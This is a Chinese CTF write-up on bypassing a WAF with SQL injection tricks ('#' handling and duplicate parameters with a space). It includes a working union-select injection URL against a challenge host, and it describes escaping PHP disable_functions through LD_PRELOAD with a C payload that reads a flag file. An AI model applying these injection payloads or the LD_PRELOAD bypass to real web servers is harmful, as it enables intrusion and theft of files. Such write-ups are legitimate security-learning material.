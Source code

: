 

## #过waf ##

结束比赛后，讨论的时候发现有很多方法，第一种就是用#过。

如果传入
```
/admin/user.php/#?id=-1/**/SQL/**/QUERY
```
在处理时，#一般作为位置的标志符，是不会代入$_GET的，但是在$_REQUEST处理url的时候?后会被处理，这样，就会代入查询，形成注入

## 空格过waf ##

因为$_get变量处理同名参数是后面的覆盖前面的，但是这里重写$_REQUEST的时候却是用?,&,=分割的，只要绕过这个分割就可以

```
/admin/user.php?id=-1/**/SQL/**/QUERY&%20id=1 
```
通过空格绕过了检查，只处理了后面的


# 利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令 #

[文章原址](http://drops.wooyun.org/tips/16054)


上一部注入没得到什么有效的信息只有一个提示

```
http://451bf8ea3268360ee.jie.sangebaimao.com/admin/user.php?id=1&id=-1/**/union/**/select/**/1,2,3,(select/**/content/**/from/**/memo),5?=2&id=3


/NQTGmhlG3im8PUcsO2GgMCieThLtbqi4.php
password:firesun
flag is at /.

```

shell的功能很少，尝试发现可以写一个文件进去， move_uploaded_file() 没有被ban，可以写文件，测试了下发现上次遇到的那种方式居然可以，那么写c然后读文件>/tmp/xxx，get flag

不过感觉应该是非预期...才出完没多久就又出了一次。。。


附上c脚本
```
#include<stdlib.h>
#include<stdio.h>
#include<string.h>
#include<dirent.h>

void payload() {
	FILE *fp, *fp2;
	char buf[100];
	// dir = opendir("/");
	fp = fopen("/tmp/ddog123", "w");
	fp2 = fopen("/flag_gei_ni_ni_Ye_du_bu_LIAO", "r");
	fgets(buf, 100, fp2);
	fputs(buf, fp);
	// while ((dp = readdir(dir)) != NULL) {
		// fputs(dp->d_name, fp);
	// }
	fclose(fp);
	fclose(fp2);
	// closedir(dir);
}

```